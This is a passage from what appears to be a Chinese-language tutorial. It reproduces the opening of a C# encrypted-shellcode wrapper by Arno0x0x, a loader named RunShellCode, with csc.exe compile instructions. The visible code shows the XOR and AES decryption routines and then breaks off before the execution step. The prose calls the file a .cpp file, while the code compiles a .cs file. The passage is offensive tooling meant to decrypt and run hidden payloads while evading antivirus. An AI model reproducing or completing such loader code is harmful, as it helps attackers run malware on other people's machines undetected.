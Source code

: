 生成了三个文件，其中C#为我们需要的文件。

其中`encryptedShellcodeWrapper_xor.cpp`文件中的C#源码如下

```
/*
Author: Arno0x0x, Twitter: @Arno0x0x

How to compile:
===============
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:encryptedShellcodeWrapper_xor.exe encryptedShellcodeWrapper_xor.cs

*/

using System;
using System.IO;
using System.Collections.Generic;
using System.Text;
using System.Threading.Tasks;
using System.Security.Cryptography;
using System.Runtime.InteropServices;

namespace RunShellCode
{
    static class Program
    {
        //==============================================================================
        // CRYPTO FUNCTIONS
        //==============================================================================
        private static T[] SubArray<T>(this T[] data, int index, int length)
        {
            T[] result = new T[length];
            Array.Copy(data, index, result, 0, length);
            return result;
        }

        private static byte[] xor(byte[] cipher, byte[] key) {
            byte[] decrypted = new byte[cipher.Length];

            for(int i = 0; i < cipher.Length; i++) {
                decrypted[i] = (byte) (cipher[i] ^ key[i % key.Length]);
            }

            return decrypted;
        }

        //--------------------------------------------------------------------------------------------------
        // Decrypts the given a plaintext message byte array with a given 128 bits key
        // Returns the unencrypted message
        //--------------------------------------------------------------------------------------------------
        private static byte[] aesDecrypt(byte[] cipher, byte[] key)
        {
            var IV = cipher.SubArray(0, 16);
            var encryptedMessage = cipher.SubArray(16, cipher.Length - 16);

            // Create an AesManaged object with the specified key and IV.
            using (AesManaged aes = new AesManaged())
            {
                aes.Padding = PaddingMode.PKCS7;
                aes.KeySize = 128;
                aes.Key = key;
                aes.IV = IV;
```